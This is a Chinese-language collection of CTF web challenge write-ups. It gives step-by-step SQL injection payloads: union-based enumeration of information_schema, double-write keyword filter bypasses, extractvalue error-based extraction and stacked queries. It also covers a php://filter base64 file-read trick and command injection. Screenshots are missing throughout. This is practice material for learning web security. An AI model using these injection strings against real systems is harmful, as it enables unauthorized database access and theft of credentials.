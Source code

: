 1、【极客大挑战2019】easy sql
先尝试随便输入username=admin,password=admin
发现url上显示了刚刚输入的，说明是get，
尝试用再url输入check.php?username=admin&password=admin and 1 =1


说明存在该输入情况，可使用sql注入
尝试最基本的sql注入uername=admin’ or 1=1#,password=1;

2、【极客大挑战2019】have fun
直接查看网页源代码









其中if语句是关键
直接再url上注入index.php?cat=dog
3、【ACTF2020新生赛】include

直接打开源代码，发现只存在一个文件file=flag.php
所以可能是php的伪协议
直接在url输入?file=php://filter/read=convert.base64-encode/resource=flag.php
得到一段代码，对该代码进行base解码即可
4、[SUCTF 2019]EasySQL

F12

表明要输入正确name
先输入1看看情况

出现回显点说明可以实现sql注入
再查看数据提交方式   输入1’
无反应  数字型数据
尝试绕过*，1

5、[强网杯 2019]随便注
题目提到安全问题，猜测是post提交
尝试输入’

猜测列名数量1' order by 1 # 

即有2个列名
查看表名0';show tables;#

有两个表
依次查看1919810931114514

6、[ACTF2020 新生赛]Exec1
尝试注入1

试试是不是本地地址注入127.0.0.1
出现回显，说明思路正确，尝试看一下目录
先可以试试直接找flag

直接就出来了
7、[极客大挑战 2019]LoveSQL1
和第一次一样先输入万能钥匙

出现类似与flag的东西，但试了一下发现不是
我们先尝试猜测列名数量

试出来只有3个
接下了就直接查看一下表名
一般查询表名的语句1’ union select 1,group_concat(table_name)e,3 from information_schema.tables where table_schema=database()#
我们这边直接注入就可以了

推断flag可能再10ve1ysq1中
下一步查看表的字段
1' union select 1, group_concat(column_name) ,3 from information_schema.columns where table_name='10ve1ysq1'#

接下来就查看字段里面的数据就好了
1' union select 1, group_concat(password),3  from l0ve1ysq1 #
7、[极客大挑战 2019]Secret File1
常规先查看源代码F12

看到有一个链接，直接点进去

太快了，试试抓包
放行之后看到了一个被注释的文件夹
打开这个文件夹看看

可以看到flag在file文件里面
这里是Filter伪协议，直接用该协议爆破康康

哈！马上就出来了，用base-64解码一下
出来啦！

8、[极客大挑战 2019]BabySQL
先和前面一样输入万能密码，报错。
再试试输入admin’ order by 1,2,3

发现报错的时候order by就剩下了der说明or和by都被过滤了，所以我们输入oorrder bbyy#来绕过一下



注入成功，再试试4可不可以

所以只有3个字段
查看一下

这里union select也被过滤掉了（好烦啊）
绕过一下


怎么还是这个
试试交换一下username和password

接下来我们来找一下数据库


接下来就查看一下表了
union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()
把过滤的部分双写
admin' ununionion seselectlect 1,group_concat(table_name),3 frfromom infoorrmation_schema.tables whwhereere table_schema=database()#（双写的部分真的很多）

猜猜flag在哪个里面
先试试第一个康康
3' ununionion seselectlect 1,2,group_concat(column_name) frfromom infoorrmation_schema.columns whwhereere table_name='b4bsql'#

接下来就看字段了，肯定是看password里面的
3' ununionion seselectlect 1,2, group_concat(column_name) frfromom infoorrmation_schema.columns whwhereere table_name='password'#

？没有？
试试从被b4bsql里看看
3' ununionion seselectlect 1,2,group_concat(username,passwoorrd) frfromom b4bsql#
出来啦！


9、[极客大挑战 2019]hardsql 1
先按之前的尝试一下万能密码和一般的sql注入

发现都显示这个，再试试order和union发现都不行
那么我们就可以试试强制类型报错
先来找一下数据库
1'or(extractvalue(1,concat(0x7e,(select(database())))))#


找到数据库后就要找表了
1'or(extractvalue(1,concat(0x7e,(select(table_name)from(information_schema.tables)where(table_schema)like('geek')))))#           这里的like本来是=，但被其过滤了，所以用like绕过

找完表后就可以查看字段了
1'or(extractvalue(1,concat(0x7e,(select(group_concat(password))from(H4rDsq1)))))# 

爆破右边
1'or(extractvalue(1,concat(0x7e,(select(right(password,30))from(H4rDsq1)))))# 

10、[GXYCTF2019]BabySQli
先尝试万能密码

第一反应去抓包试试

抓完，发现有一段被注释掉的字段
尝试了很多解码方式，发现都不对，
可能是二次加密，发现base32解码出来的像base64编码
尝试一下就出来了
说明判断时先判断用户名，再判断密码
所以先试试最常见的admin

说明用户名对了
就是admin
接下来就和之前差不多了
先用order by尝试查看列名数量
但发现被过滤
抱着试试的心态，尝试了一下联合注入
1’ union select 1#

2的时候也一样
但到了3，是
说明列名的数量为3
一般来说，2是username，3是password
但我们还是判断一下这道题有没有骗我们
尝试注入1' union select 1,'admin','123'# 

所以说初步判断正确
接下来判断可能是md5加密直接输入就好了
md5(123,32) = 202cb962ac59075b964b07152d234b70
直接输入就好了
1' union select 1,'admin','202cb962ac59075b964b07152d234b70'#
